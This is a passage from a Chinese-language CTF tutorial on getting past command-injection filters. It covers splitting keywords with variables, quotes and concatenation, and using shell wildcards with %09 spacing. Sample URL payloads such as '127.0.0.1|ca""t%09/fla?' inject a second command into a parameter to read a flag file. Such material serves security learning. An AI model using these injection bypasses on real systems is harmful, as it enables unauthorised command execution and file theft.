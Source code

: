 也不太明白“偶读”到底是个什么术语，差不多就是把一个参数定义成好几个参数，然后一块使用就相当于绕过了的意思吧。

```php
a=l;b=s;$a$b
a=fl;b=ag;cat $a$b
```

##### 利用.拼接来进行绕过

```php
(sy.(st).em)
```

其实不太知道这个能用在哪里

#### 用引号绕过

我们可以用引号绕过对关键字的过滤

```php
ca""t  =>  cat
mo""re  =>  more  
in""dex  =>  index
ph""p  =>  php
```

#### 用通配符绕过

可以看到，题目使用 `preg_match("/.*f.*l.*a.*g.*/", $ip)` 过滤了flag，那么我们读取flag时就可以用以下方法绕过：

```php
假设flag在/flag中:
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla????
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flags/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla??/fla????
/?url=127.0.0.1|ca""t%09/fla*/fla*
```

下面说一下原理：

在正则表达式中，?这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或一次。  
在shell命令行中，? 这样的通配符与其它字符一起组合成表达式，匹配任意一个字符。  
同理，我们可以知道`*` 通配符：

在正则表达式中，`*`这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或多次。  
在shell命令行中，`*`这样的通配符与其它字符一起组合成表达式，匹配任意长度的字符串。这个字符串的长度可以是0，可以是1，可以是任意数字。&lt;br /&gt;

当然通配符不止如此，P牛的文章里有崭新的利用通配符的方式，下面会讲。

#### 用反斜杠绕过

反斜杠`\`（区分路径`/`，linux下，windows下路径就是用的反斜杠）在正则等语法里面，表示后面跟的字符是正常字符，不需要转义。
